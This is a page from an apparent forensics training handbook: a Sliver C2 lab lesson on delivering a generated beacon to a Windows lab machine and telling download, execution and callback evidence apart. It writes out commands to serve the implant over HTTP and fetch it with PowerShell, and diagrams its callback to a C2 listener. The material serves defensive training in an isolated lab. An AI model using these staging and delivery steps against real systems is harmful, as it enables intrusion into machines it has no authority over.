

repository: DFIDwiz-sketch/dfir-handbook · page: training/silver-c2/practical-introduction/lesson-6-delivery-execution-and-evidence/index.html · generator: mkdocs

---
title: "Lesson 6 — Delivery, Execution, and Connection Evidence"
---

# Lesson 6 — Delivery, Execution, and Connection Evidence { #lesson-6-delivery-execution-and-evidence }

**Goal:** Follow the generated file to the lab target and distinguish evidence of a response, saved contents, execution, communication, and task completion.

## Two services, two purposes { #two-services-two-purposes }

Continue the isolated lab from Lesson 5: Linux server `192.168.56.10`, Windows target `192.168.56.20`, and the generated `lesson5-beacon.exe`.

| Service | Address | Purpose |
|---|---|---|
| Python file server | `192.168.56.10:8000` | Provide the executable to Windows |
| Sliver C2 listener | `192.168.56.10:8080` | Exchange tasks and results with the running implant |

```mermaid
flowchart LR
    W["Windows lab PC"] -->|"1. Request file"| F["File server: 192.168.56.10:8000"]
    F -->|"2. Transfer executable"| W
    W -->|"3. Running implant contacts C2"| C["Sliver listener: 192.168.56.10:8080"]
```

Both services can use HTTP without being the same service. Download success is not C2 success.

## Prepare the file server on Linux { #prepare-file-server }

Use the generation output message to locate the file. Prepare a dedicated transfer folder containing only the intended lab file, then open a **Linux terminal in that folder**. This terminal is separate from the Sliver console.

First calculate the original file's SHA-256:

```bash
sha256sum ./lesson5-beacon.exe
```

Record the value for comparison. Then start the file server from that folder:

```bash
python3 -m http.server 8000 --bind 192.168.56.10
```

This serves files from the current directory on the specified interface and port. Keep the terminal open while serving the file. A dedicated folder limits which files are offered. Python's simple server is appropriate here as a temporary lab utility, not production hosting. [Python documentation](https://docs.python.org/3/library/http.server.html)

## Download on the Windows target { #download-on-windows }

Open **PowerShell in a dedicated lab folder on Windows**. The relative output path below refers to that folder.

```powershell
Invoke-WebRequest -Uri "http://192.168.56.10:8000/lesson5-beacon.exe" -OutFile ".\lesson5-beacon.exe" -UseBasicParsing
```

| Part | Meaning |
|---|---|
| `Invoke-WebRequest` | Make the HTTP request |
| `-Uri` | Address of the file to retrieve |
| `-OutFile` | Local output file |
| `.\` | Current Windows directory |
| `-UseBasicParsing` | Use basic parsing, including compatibility with Windows PowerShell |

The command saves content; it does **not** automatically execute the saved program. [Microsoft documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)
